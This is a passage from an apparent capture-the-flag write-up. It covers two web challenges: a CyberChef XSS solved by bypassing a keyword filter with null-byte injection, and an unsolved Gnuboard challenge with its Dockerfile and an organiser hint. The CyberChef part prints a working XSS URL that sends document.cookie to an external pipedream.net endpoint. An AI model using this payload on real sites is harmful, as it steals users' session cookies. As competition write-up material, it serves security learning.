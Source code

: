 This is filtering the characters called chart among the function names used in the 1-Day exploit.  But this can be bypassed using null byte injection

```plaintext
http://cyberchef:8000/#recipe=Scatter_ch%00art('Line%20feed','Space',false,'','','red"><script>fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/".concat(document.cookie))</script>',100,false)&input=MTAwLCAxMDA
```
So I was able to get the flag by sending the above PoC to the admin bot.

```plaintext
FLAG : hsctf{be9e5b8bce203e203597dca3d67e0f7a38e359a9ab7799988e888be073c78da0}
```

---
# (Web/Not Solve) Gnuboard [498 pts]

The Gnuboard challenge is to solve it using 0-Day. This challenge was so difficult that I couldn't solve it while the competition was in progress, and after the competition I asked [as3617](https://blog.ssrf.kr/).

```docker
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=noninteractive

RUN apt-get update
RUN apt-get install -y wget curl apache2 git php-gd php-mysql php

RUN git clone https://github.com/gnuboard/gnuboard5 /tmp/gnuboard
RUN cp -r /tmp/gnuboard/* /var/www/html
RUN sed -i 's/AllowOverride None/AllowOverride All/g' /etc/apache2/apache2.conf

WORKDIR /var/www/html

RUN mkdir data
RUN chmod 777 data
RUN rm -rf index.html /tmp/gnuboard

RUN echo '$flag = "hsctf{flag_will_be_here}";' >> /var/www/html/common.php

ADD entrypoint.sh /
CMD /entrypoint.sh
```
I could see in the docker file that the latest version of Gnuboard 5 was being used, and the flag was defined as a variable called $flag in `common.php`. So, after a long time, I started to analyze GnuBoard and found the SQL Injection vector, but it might not work well, and even if SQL Injection occurs, I don't think I can do anything using it. So I had to give up.


```plaintext
Hint : Gnuboard, It really has too many functions to be a just "board". It seems the way how they implement the payment is meh.
```
Hayyim Security provided a hint because there was no solver for the challenge. Hint mentioned the payment part.

